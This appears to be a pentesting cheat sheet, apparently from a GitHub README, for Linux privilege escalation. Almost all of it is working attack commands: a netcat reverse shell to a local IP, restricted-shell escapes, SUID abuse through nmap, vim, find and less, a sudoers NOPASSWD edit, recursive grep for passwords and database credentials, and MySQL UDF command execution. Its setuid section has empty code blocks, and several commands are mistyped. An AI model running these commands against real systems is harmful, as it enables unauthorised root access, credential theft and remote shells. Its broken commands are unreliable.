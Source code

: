 * [setuid](#setuid)
  * [`bash -p`](#bash--p)
# SETUID
## `bash -p`
The payload which is being processed by the Node.js server, upon de-serialization sets the setuid bit on /bin/bash binary. 
```sh

```
If a `setuid` bit is set on a binary, the binary can be executed with the effective user id of the user who owns the binary. In this case the setuid/setgid bit is set on bash which is owned by root.

By default, if the effective user id and the real user id are not equal, bash will set the effective user id to the real user id. In this case, the bash process will be started with the user "user".

In order, to prevent the effective user id from resetting to the real user id, the "-p" option has to be passed. Upon running the command `bash -p`, the bash binary will run with effective user id 0, providing a root shell.
```sh
```

### Spawn Interactive Shell and set env  

python -c 'import pty;pty.spawn("/bin/bash");'  
ctrl z  
echo $TERM  
stty -a  
stty raw -echo  
fg  

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH  
export TERM=xterm256-color  
export SHELL=bash  

stty rows \<> colums \<>  

### Restricted bash
perl -e 'exec "/bin/sh";'  
/bin/sh -i  
exec "/bin/sh";  
echo os.system('/bin/bash')  
/bin/sh -i  
ssh user@$ip nc $localip 4444 -e /bin/sh  
export TERM=linux  

### Check environment 
Check any restricitions on any folders  
mount -l        >> any no exec or no suid?  

Check any unmounted drives  
cat /etc/fstab  

### SUID
find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.  
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.  
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.  

find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID < full search  
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin < quicker  

-find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null  

find / perm /u=s -user "User name that you are looking for" 2>/dev/null  

### Writable file and nobody files  
find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files  
find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files  

### Writable by current user  
find / perm /u=w -user `whoami` 2>/dev/null  
find / -perm /u+w,g+w -f -user `whoami` 2>/dev/null  
find / -perm /u+w -user `whoami` 2>/dev/nul  

### Any script files that we can modify?  
find / -writable -type f -name "*.py" 2>/dev/null     #find all python file that can be write by us  

ls -aRl / | awk '$1 ~ /^.*w.*/' 2>/dev/null     # Anyone  
ls -aRl / | awk '$1 ~ /^..w/' 2>/dev/null       # Owner  
ls -aRl / | awk '$1 ~ /^.....w/' 2>/dev/null    # Group  
ls -aRl / | awk '$1 ~ /w.$/' 2>/dev/null        # Other  

find / -readable -type f 2>/dev/null               # Anyone  
find / -readable -type f -maxdepth 1 2>/dev/null   # Anyone  

### Any service running by root?  
ps aux|grep "root"  

/usr/bin/journalctl (Which is normally not readable by a user) << cron job?  

### Find password  
grep -rnw '/' -ie 'pass' --color=always  
grep -rnw '/' -ie 'DB_PASS' --color=always  
grep -rnw '/' -ie 'DB_PASSWORD' --color=always  
grep -rnw '/' -ie 'DB_USER' --color=always  

# Exploit Time
## SUID
#### Is suid bit set on these applications?

Nmap  
    nmap -V     <Nmap version 2.02 - 5.21 had an interactive mode  
    nmap --interactive  
    nmap> !sh  
    
Vim  
    Modify system file, e.g. passwd?  
    
    vim.tiny  
    - Press ESC key  
    :set shell=/bin/sh  
    :shell  
    
find  
    touch pentestlab  
    find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;  
    
Bash  
    bash -p      
            
More  
    
Less  
    less /etc/passwd  
    !/bin/sh  

Nano  
    Can you modify system file?  
    Modify /etc/suoders  
    \<user> ALL=(ALL) NOPASSWD:ALL  
    
cp  
    Use cp to overwrite passwd with a new password  
    
### Is there a custom suid application?  
How can this application be run?  
Can be modify the path variable so that it will execute something else  

## NFS priv esc
https://medium.com/@Kan1shka9/hacklab-vulnix-walkthrough-b2b71534c0eb

## Linux capability
find / -type f -print0 2>/dev/null | xargs -0 getcap 2>/dev/null
getcap -r /

google that capability on how it can help us get root

## Mysql run by root
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library
https://www.exploit-db.com/exploits/1518/

You can also try
select sys_exec('echo test>/tmp/test.txt');
select sys_eval('echo test>/tmp/test.txt');


